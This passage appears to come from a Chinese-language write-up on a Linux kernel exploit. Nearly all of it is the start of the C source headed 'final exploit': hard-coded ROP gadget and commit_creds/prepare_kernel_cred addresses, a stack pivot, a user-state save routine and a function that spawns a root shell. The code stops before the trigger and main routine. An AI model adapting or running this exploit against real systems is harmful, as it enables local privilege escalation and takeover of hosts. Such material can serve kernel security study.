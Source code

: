 #### 最终exp
```
// exploit author: Wei Wu (ww9210@gmail.com)
// initial poc generated by syzkaller
// modified by cc-sir
#define _GNU_SOURCE
#define SPRAY_NUMBER 14

#include <signal.h>
#include <endian.h>
#include <stdint.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <sys/syscall.h>
#include <sys/types.h>
#include <unistd.h>
#include <stdio.h>
#include <sys/types.h>
#include <string.h>
#include <sys/stat.h>
#include <sys/mman.h>
#include <unistd.h>
#include <fcntl.h>
#include <stdlib.h>
#include <sys/ioctl.h>
#include <sys/mman.h>
#define native_write_cr4 0xffffffff810037d5
#define POPRDX 0xffffffff81002dda
#define DUMMY 0
#define PREPARE_KERNEL_CRED 0xFFFFFFFF810E3D40  //0xffffffff810e3670
#define COMMIT_CREDS  0xFFFFFFFF810E3AB0 
#define poprdiret 0xffffffff810013b9
#define popraxret 0xffffffff81029c71
#define swapgs 0xffffffff81c00d5a               //0xffffffff81c0095f
#define iretq 0xffffffff8106d8f4
#define stack_pivot_gadget 0xffffffff81954dc8
#define stack_top_offset 0x674
#define krop_base_to_map 0x81954000
int rop_start=0x1444-8;
void* krop_base_mapped;

unsigned long user_cs, user_ss, user_rflags;

static void save_state()
{
    asm(
        "movq %%cs, %0\n"
        "movq %%ss, %1\n"
        "pushfq\n"
        "popq %2\n"
        : "=r"(user_cs), "=r"(user_ss), "=r"(user_rflags)
        :
        : "memory");
}

void get_shell()
{
    system("id");
    char *shell = "/bin/sh";
    char *args[] = {shell, NULL};
    execve(shell, args, NULL);
}
```